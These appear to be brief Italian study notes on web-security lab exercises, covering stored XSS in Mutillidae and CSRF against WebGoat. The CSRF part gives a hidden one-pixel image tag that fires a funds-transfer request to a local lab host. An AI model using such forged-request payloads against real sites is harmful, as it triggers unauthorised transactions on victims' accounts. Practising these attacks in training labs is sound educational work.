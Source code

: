 



*************************
*************************
*************************







XSS stored

• esempio attacco stored

- mutillidae, persistent, blog

- mutillidae, persistent, show log









	nel campo page viewed vengono scritti i comandi eseguiti dalla pagina DNS lookup
	nel campo browser agent 










*************************
*************************
*************************
CSRF


• CSRF "semplice"







<img height="1" width="1" src="http://172.25.1.116/WebGoat/attack?Screen=XX&menu=YY&transferFunds=4321">






• CSRF con prompt bypass




 - come caso precedente 





<img height="1" width="1" src="http://172.25.1.116/WebGoat/attack?Screen=XX&menu=YY&transferFunds=4321">
non funziona
